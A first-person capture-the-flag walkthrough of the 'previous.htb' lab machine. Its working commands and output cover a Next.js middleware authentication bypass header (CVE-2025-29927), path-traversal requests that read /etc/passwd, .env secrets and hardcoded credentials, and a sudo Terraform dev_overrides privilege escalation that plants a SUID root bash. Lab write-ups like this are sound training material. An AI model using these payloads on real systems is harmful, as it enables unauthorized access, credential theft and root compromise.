









Exploitation Summary
Exploitation process: The target machine was running a Next.js 15.2.2 application with a known middleware authentication bypass vulnerability (CVE-2025-29927). By exploiting this bypass, I gained unauthorized access to protected endpoints including an LFI vulnerability in /api/download that allowed reading arbitrary files from the filesystem.
Through the LFI, I extracted the compiled Next.js authentication configuration file containing hardcoded credentials for user jeremy. These credentials provided SSH access to the machine. Once inside, I discovered that jeremy had sudo privileges to execute terraform with the -chdir option.
The privilege escalation was achieved by exploiting Terraform's TF_CLI_CONFIG_FILE environment variable combined with the !env_reset sudo configuration. By creating a malicious Terraform CLI configuration file that used dev_overrides to redirect the provider source to a controlled directory, I was able to execute an arbitrary binary as root when Terraform attempted to load the provider plugin.
Technologies/Exploits: Next.js middleware bypass (CVE-2025-29927), Local File Inclusion via path traversal, Terraform provider development override exploitation, sudo environment variable preservation abuse.
Initial Reconnaissance
I start with an nmap scan to identify open ports and running services on the target machine:

The scan reveals SSH on port 22 and HTTP on port 80. I add previous.htb to my /etc/hosts file for easier access.
Web Enumeration - Next.js Application
Browsing to the web application, I find a contact button that reveals an email address: jeremy@previous.htb. Most buttons redirect to a login page at /signin.
Running whatweb provides more information about the technology stack:
whatweb http://previous.htbhttp://previous.htb [200 OK] Country[RESERVED][ZZ], Email[jeremy@previous.htb],
HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.83],
Script[application/json], X-Powered-By[Next.js], nginx[1.18.0]The application is powered by Next.js, though the exact version isn't immediately visible. I run gobuster to discover additional paths:
/docs (Status: 307) [Size: 36] [--> /api/auth/signin?callbackUrl=%2Fdocs]
/api (Status: 307) [Size: 35] [--> /api/auth/signin?callbackUrl=%2Fapi]
/signin (Status: 200) [Size: 3481]
/docsis (Status: 307) [Size: 38] [--> /api/auth/signin?callbackUrl=%2Fdocsis]
/apis (Status: 307) [Size: 36] [--> /api/auth/signin?callbackUrl=%2Fapis]
/apidocs (Status: 307) [Size: 39] [--> /api/auth/signin?callbackUrl=%2Fapidocs]All paths except /signin redirect to the authentication page, indicating middleware protection.
Next.js Middleware Authentication Bypass
As a Next.js developer myself, I'm aware of a recent and recurring vulnerability that allows bypassing middleware authentication. The vulnerability is documented at ProjectDiscovery's blog.
I test if the target is running a vulnerable version (Next.js 13.2.0 or later) by attempting the middleware bypass:

Success! The application is indeed vulnerable. The bypass works by adding specific headers to the request that make Next.js treat it as an internal middleware subrequest, effectively skipping authentication checks.
Automating the Bypass with Burp Suite
To make exploitation easier, I configure Burp Suite with a match-and-replace rule to automatically apply the middleware bypass header to all my requests:

This allows me to browse the application naturally while automatically bypassing authentication on every request:

Discovering Local File Inclusion (LFI)
While exploring the authenticated sections of the application (which appears to be a code documentation platform), I discover a download functionality at /api/download?example={file}. This endpoint is intended to download code sample files.
Testing for path traversal, I attempt to read /etc/passwd:
curl -X GET "http://previous.htb/api/download?example=../../../../../../../../../etc/passwd" \
-H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware"root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000::/home/node:/bin/sh
nextjs:x:1001:65533::/home/nextjs:/sbin/nologinThe LFI works perfectly! I can see two notable users: root and node, both with shell access. I attempt to read /home/node/.ssh/id_rsa but the file doesn't exist, suggesting this might be running in a container.
Mapping the Application Structure
I systematically explore the filesystem to understand the application structure. Based on Next.js conventions, I test paths relative to the web root:
curl -X GET "http://previous.htb/api/download?example=../../.env" \
-H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware"NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61aI successfully retrieve the .env file, which contains the NextAuth secret. This confirms the application root is two directories above the download endpoint. I also extract package.json to identify exact library versions:
"dependencies": {
"@mdx-js/loader": "^3.1.0",
"@mdx-js/react": "^3.1.0",
"@next/mdx": "^15.3.0",
"@tailwindcss/postcss": "^4.1.3",
"@tailwindcss/typography": "^0.5.16",
"@types/mdx": "^2.0.13",
"next": "^15.2.2",
"next-auth": "^4.24.11",
"postcss": "^8.5.3",
"react": "^18.2.0",
"react-dom": "^18.2.0",
"tailwindcss": "^4.1.3"
},
"devDependencies": {
"@types/node": "22.14.0",
"@types/react": "19.1.0",
"typescript": "5.8.3"
}Next.js version 15.2.2 is confirmed, along with next-auth for authentication.
Confirming Containerized Environment
Reading /proc/self/environ provides environment variables from the running process:
curl -X GET "http://previous.htb/api/download?example=../../../../../../../../../proc/self/environ" \
-H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware"NODE_VERSION=18.20.8HOSTNAME=0.0.0.0YARN_VERSION=1.22.22SHLVL=1PORT=3000
HOME=/home/nextjsPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
NEXT_TELEMETRY_DISABLED=1PWD=/appNODE_ENV=productionThe environment variables confirm this is indeed a containerized application running in /app with the nextjs user.
Extracting Hardcoded Credentials
I attempt to read various authentication-related files. After several tries targeting Next.js build artifacts, I successfully extract the compiled NextAuth configuration file:
curl -X GET "http://previous.htb/api/download?example=../../.next/server/pages/api/auth/\[...nextauth\].js" \
-H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware"The response contains minified JavaScript code. Within this compiled code, I find the authentication logic:
authorize:async e=>e?.username==="jeremy"&&e.password===(process.env.ADMIN_SECRET??
"MyNameIsJeremyAndILovePancakes")?{id:"1",name:"Jeremy"}:nullThis reveals the authentication implementation. The code checks if the username is jeremy and the password matches either the ADMIN_SECRET environment variable (which isn't set, as we saw in the .env file) or defaults to the hardcoded value MyNameIsJeremyAndILovePancakes.
I now have valid credentials: jeremy:MyNameIsJeremyAndILovePancakes
Initial Access via SSH
I attempt SSH connection with the discovered credentials:
ssh jeremy@previous.htbThe credentials work! I successfully gain SSH access as user jeremy and can retrieve the user flag:

Privilege Escalation - Terraform Sudo Misconfiguration
After gaining initial access, I check what sudo privileges the jeremy user has:
sudo -l
The output reveals several interesting details:
Defaults:jeremy !env_reset
Defaults:jeremy env_delete+=PATH
User jeremy may run the following commands on previous:
(root) NOPASSWD: /usr/bin/terraform -chdir\=/opt/examples *Three critical pieces of information:
!env_reset- Environment variables are NOT reset when using sudo (unusual security configuration)env_delete+=PATH- Only the PATH variable is deleted for security- I can run
terraformas root with the-chdir=/opt/examplesoption
Checking the Terraform version:
terraform --versionTerraform v1.13.0
on linux_amd64
+ provider previous.htb/terraform/examples v1.0.0This is a very recent version of Terraform.
Analyzing the Terraform Configuration
The /opt/examples directory contains Terraform configuration files, all owned by root:
-rw-r--r-- 1 root root 18 Apr 12 20:32 .gitignore
-rw-r--r-- 1 root root 576 Aug 21 18:15 main.tf
drwxr-xr-x 3 root root 4.0K Aug 21 20:09 .terraform
-rw-r--r-- 1 root root 247 Aug 21 18:16 .terraform.lock.hcl
-rw-r--r-- 1 root root 1.1K Sep 25 20:55 terraform.tfstateI cannot modify these files directly. The main.tf file uses a custom provider:
terraform {
required_providers {
examples = {
source = "previous.htb/terraform/examples"
}
}
}Understanding the Exploitation Path
The key insight is the combination of:
- Sudo allows running Terraform as root
- Environment variables are preserved (
!env_reset) - Terraform supports environment variables for configuration
After researching Terraform's environment variables, I discover TF_CLI_CONFIG_FILE, which allows specifying a custom CLI configuration file: https://developer.hashicorp.com/terraform/cli/config/environment-variables#tf_cli_config_file
Terraform Provider Override Exploitation
Terraform's CLI configuration file supports dev_overrides for provider developers, documented at: https://developer.hashicorp.com/terraform/cli/config/config-file#development-overrides-for-provider-developers
This feature allows overriding the source location of provider plugins for development purposes, and critically, it disables version and checksum verification. This means Terraform will execute whatever binary is in the specified directory as long as it follows the naming convention.
I create a custom Terraform CLI configuration in my home directory:
cat > ~/.terraformrc << 'EOF'
provider_installation {
dev_overrides {
"previous.htb/terraform/examples" = "/home/jeremy/malicious_provider"
}
direct {}
}
EOFNext, I create the directory and a malicious provider binary. The binary must be executable and follow Terraform's naming convention: terraform-provider-{name}:
mkdir -p /home/jeremy/malicious_providerI create a simple shell script that will execute as root:
cat > /home/jeremy/malicious_provider/terraform-provider-examples << 'EOF'
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod 4755 /tmp/rootbash
EOF
chmod +x /home/jeremy/malicious_provider/terraform-provider-examplesThis script will create a SUID bash binary when executed as root.
Executing the Privilege Escalation
Now I export the environment variable and run Terraform with sudo:
export TF_CLI_CONFIG_FILE="$HOME/.terraformrc"
sudo /usr/bin/terraform -chdir=/opt/examples init
Terraform attempts to load the provider and validates the binary name. After confirming the correct naming convention, I verify the setup:

Running the command again:

The command executes successfully, and more importantly, the malicious binary was executed as root:

The SUID bash binary has been created with root ownership and the setuid bit set. I can now execute it to gain root privileges:
/tmp/rootbash -pThis grants me a root shell, allowing me to retrieve the root flag and complete the machine.